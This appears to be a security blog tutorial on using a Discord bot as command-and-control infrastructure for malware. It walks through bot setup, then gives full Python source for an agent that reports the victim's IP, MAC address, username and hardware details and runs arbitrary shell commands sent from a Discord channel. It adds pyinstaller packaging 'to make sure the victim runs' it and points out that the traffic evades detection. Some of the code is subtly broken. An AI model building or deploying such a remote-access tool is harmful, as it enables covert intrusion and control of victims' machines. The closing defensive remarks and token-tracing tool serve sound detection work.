

> **Disclaimer**:
>
> The following content is intended solely for educational purposes. Any misuse of the information presented here is not endorsed or supported by the creators of this content.

# C2 Infrastructure

Known as Command and Control, C&C, C2, refers to the systems, servers, and communication channels used by attackers or operators to control compromised devices, networks, or systems. It is a fundamental component of many cyberattacks because it allows attackers to remotely manage compromised systems, maintain control over their operations, and achieve their malicious objectives. Without C2, most modern cyberattacks would lack the coordination, persistence, and adaptability needed to succeed. 


There are a lot of services can be use as a C2 such as any paid/open source C2 frameworks, using VPS and other legitimate services (Telegram, Youtube, Google Calendar, Github, Discord, you name it). As vicevirus said, "Anything can be a C2 if you're brave enough".

# ~Ab~using Discord 

Any programming language can be use to write a malware that communicates with Discord as long as you follow this [API documentation](https://discord.com/developers/)

In Python, there is a library dedicated to this, called as [discord.py](https://discordpy.readthedocs.io/en/stable/)

By theory, this malware can bypass firewall since its communicate with a legit channel, plus Discord provide an encrypted API requests and responses.

Prerequisites:
- Discord Developer Account
- discord.py
- Pyinstaller

# Creating a Discord Bot

Go to this link https://discord.com/developers/applications and login using your Discord account if you have it already.

Click on "New  Application"


Give a name for it


And.. That's it. You have created your own Discord Bot. Pretty straight forward right? Now let's configure the bot.

# Configure Discord Bot

Edit the bot's informations as much as you want here.


In "Bot" tab, scroll down a bit, make sure to tick atleast "Message Content Intent"


Then, generate the token and follow the steps required. Store that token somewhere else, it will be use in the malware we want to create.


# Invite Bot to Discord Channel

In "OAuth" tab, tick "bot" scopes


Then, for bot permissions, tick "Administrator"


You will see an URL like this. Copy the URL and paste it in your browser.


When prompted something like this, select a Discord Channel to be added to and continue. 


Follow any remaining steps and the bot will join that channel.


# Creating a Malware

The malware here should act as an "agent" for the Discord Channel. For this post purposes, i will create a simple malware in python as a POC. The malware is capable of stealing general information such as network information, victim's host information and executing commands on victim's host.


Whats necessary in your code should be the bot's token, your discord user id and the channel id.

Where to find?
- Bot's Token - On Discord Developer Portal
- User ID - Right click your user > Copy User ID
- Channel ID - Right click your channel > Copy Server ID

```py
import discord
import os
import subprocess
import requests

TOKEN = 'your-token-here'

AUTHORIZED_USERS = [your-discord-user-id-here-123]

guild_id = channel-id-123
session_id = os.urandom(8).hex()

intents = discord.Intents.default()
intents.messages = True
intents.message_content = True

client = discord.Client(intents=intents)    

@client.event
async def on_ready():
    guild = client.get_guild(int(guild_id))
    channel = await guild.create_text_channel(session_id)
    ip_address = requests.get("https://api.ipify.org").text
    embed = discord.Embed(title="New session created", description="", color=0xfafafa)
    embed.add_field(name="Session ID", value=f"```{session_id}```", inline=True)
    embed.add_field(name="Username", value=f"```{os.getenv('USER')}```", inline=True)
    embed.add_field(name="🛰️  Network Information", value=f"```IP: {ip_address}```", inline=False)
    embed.add_field(name="🛰️  Network Information", value=f"```MAC: {get_mac_address()}```", inline=False)

    sys_info = "\n".join([
        f"OS: {get_os()}",
        f"CPU: {get_processor()}",
        f"GPU: {get_gpu()}"
    ])
    embed.add_field(name="🖥️  System Information", value=f"```{sys_info}```", inline=False)
    await channel.send(embed=embed)

    def get_os():
    if "Windows" in os_info:
        stdout = subprocess.Popen(
            ["powershell.exe", "Get-WmiObject -Class Win32_OperatingSystem -ComputerName. | Select-Object -Property Caption"], stdout=subprocess.PIPE, shell=True
        ).stdout.read().decode()
        return stdout.split("\n")[3]
    else:
        stdout = subprocess.check_output(["uname", "-a"]).decode("utf-8")
        return stdout.splitlines()[0]

def get_gpu():
    if "Windows" in os_info:
        stdout = subprocess.Popen(
            ["powershell.exe", "Get-WmiObject -Class Win32_VideoController -ComputerName. | Select-Object -Property Name"], stdout=subprocess.PIPE, shell=True
        ).stdout.read().decode()
        return stdout.split("\n")[3]
    else:
        stdout = subprocess.check_output(["lspci"]).decode("utf-8")
        
        for line in stdout.splitlines():
            if "VGA" in line or "3D" in line:
                return line
        return "GPU not found"

def get_processor():
    if "Windows" in os_info:
        stdout = subprocess.Popen(
            ["powershell.exe", "Get-WmiObject -Class Win32_Processor -ComputerName. | Select-Object -Property Name"], stdout=subprocess.PIPE, shell=True
        ).stdout.read().decode()
        return stdout.split("\n")[3]
    else:
        stdout = subprocess.check_output(["lscpu"]).decode("utf-8")
        
        for line in stdout.splitlines():
            if "Model name" in line:
                return line.split(":")[1].strip()
        return "Processor information not found"

def get_mac_address():
    mac = uuid.getnode()
    mac_address = ':'.join(f'{(mac >> ele) & 0xff:02x}' for ele in range(40, -1, -8))
    return mac_address

async def on_message(message):
    if message.author.bot:
        return

    if message.author.id not in AUTHORIZED_USERS:
        await message.channel.send("You are not authorized to use this bot.")
        return

    # Process commands
    if message.content.startswith('!helpme'):
        help_command = "\n".join([
            "`!helpme` - Displays this message.",
            "`!cmd <command>` - Run any command you want"
        ])
        embed = discord.Embed(title="Help", description=f"{help_command}", color=0xfafafa)
        await message.reply(embed=embed)
    if message.content.startswith('!cmd'):
        command = message.content[5:]
        try:
            result = subprocess.run(command, shell=True, capture_output=True, text=True)
            output = result.stdout or result.stderr or "Command executed without output."
            embed = discord.Embed(title="Command Run", description=f"```{output}```", color=0xfafafa)
        except Exception as e:
            embed = discord.Embed(title="Error", description=f"```Error executing command: {e}```", color=0xfafafa)
        await message.reply(embed=embed)

client.run(TOKEN)
```

To make sure the victim runs this code, we need to compile this source code to PE format using pyinstaller.

`pyinstaller.exe --onefile yourmalware.py`

The result should look like this.


# POC

When executing the malware, it established a connection to an IP address.


Image below shows the network traffic of the Bot trying to establish a connection to Discord gateway.


Looking up to this IP address, it belongs to Discord. Seems like a legit process since it had 0 detection on VirusTotal.


In the channel you can send commands to be executed.


The communications between the agent and the C2 are encrypted, which make it harder to analyse the network traffic.


But, if using Procmon, we can see the command executed via CMD.


We can verify the command executed by looking at the file created in victim's host.


# Takeaway

While Discord bots provide exceptional convenience and flexibility for developers and enthusiasts, they can also be exploited for malicious purposes. By leveraging trusted communication channels, it becomes more challenging for blue teams to detect suspicious activity, as this traffic can easily blend in with legitimate network traffic. Moreover, since Discord uses its own valid and trusted certificates, attackers are spared the effort of setting up and configuring local SSL infrastructure, saving them time and resources.

Of course, I don’t want to be misunderstood—I’m not suggesting that detection at the network level is impossible. However, it’s less likely, particularly if the compromised device was already using Discord prior to or during the attack.

Additionally, you can trace down the C2 activity if you obtained the bot's token. [I created a tool to automate the process.](https://github.com/n3rr/Diggersby) With only the bot's token, we can actually gather so much information about the bot such as name, avatar and id. Also, if we know the Server/Guild ID, we can basically read everything in there. It's quite an interesting finding.

Thank you for reading and hope you learned something new.

